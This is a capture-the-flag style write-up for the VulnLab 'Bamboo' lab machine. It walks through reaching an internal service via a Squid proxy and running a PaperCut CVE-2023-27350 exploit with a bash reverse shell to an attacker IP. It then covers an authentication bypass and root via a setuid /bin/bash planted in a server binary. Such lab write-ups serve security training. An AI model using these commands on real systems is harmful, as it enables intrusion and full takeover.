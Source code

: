 ```yaml
---
title: VulnLab -- Bamboo Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve,squid proxy]
image:
    path: ../images/bamboo-banner.png
---
```

# Bamboo

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Bamboo** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/bamboo-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3128 --min-rate=1000 10.10.110.40
```

![image.png](../images/bamboo.png)

> Notice that we have the squid port open which mean we can scan the internal ports
> 

Now let’s scan the internal ports

```bash
./squidscan
```

![image.png](../images/bamboo%201.png)

Now let’s add the proxy to our proxy configurations 

```bash
http 10.10.110.40 3128
```

![image.png](../images/bamboo%202.png)

Now let’s curl the new port

```bash
curl --proxy http://10.10.110.40:3128 http://10.10.110.40:9191 -v
```

![image.png](../images/bamboo%203.png)

Now let’s search for a CVE for this

![image.png](../images/bamboo%204.png)

now let’s gain RCE

First open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/bamboo%205.png)

now let’s run the CVE

```bash
proxychains -q python3 CVE-2023-27350.py -u "http://10.10.110.40:9191" -c "bash -i >& /dev/tcp/10.8.5.233/1337 0>&1"
```

![image.png](../images/bamboo%206.png)

now let’s see the listener

![image.png](../images/bamboo%207.png)

and we got a shell

Now let’s stabilize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/bamboo%208.png)

Now let’s hit CTRL + Z

![image.png](../images/bamboo%209.png)

now let’s go and type this

```bash
stty raw -echo;fg
```

![image.png](../images/bamboo%2010.png)

Now exporting tty

```bash
export TERM=xterm
```

![image.png](../images/bamboo%2011.png)

now let’s forward the port 9191

```bash
ssh -L 9191:127.0.0.1:9191 papercut@10.10.110.40
```

![image.png](../images/bamboo%2012.png)

now let’s access the website

![image.png](../images/bamboo%2013.png)

now let’s search for authentication bypass vuln

![image.png](../images/bamboo%2014.png)

we found on so let’s abuse it

```bash
python3 bypass.py
```

![image.png](../images/bamboo%2015.png)

now let’s see if we bypassed the auth 

![image.png](../images/bamboo%2016.png)

and we did!

now let’s do it again and monitor with pspy64

```bash
./pspy64
```

![image.png](../images/bamboo%2017.png)

notice that there is a binary named server-command is executed so let’s overwrite it

```bash
echo "chmod +s /bin/bash" >> /home/papercut/server/bin/linux-x64/server-command
```

![image.png](../images/bamboo%2018.png)

now go back to the website and click refresh servers 

![image.png](../images/bamboo%2019.png)

Now let’s see the SUID binary on /bin/bash 

```bash
ls -als /bin/bash
```

![image.png](../images/bamboo%2020.png)

now let’s exploit it

```bash
/bin/bash -p
```

![image.png](../images/bamboo%2021.png)

notice that we got root access so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/bamboo%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/bamboo%2023.png)

That’s it for the **Bamboo** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX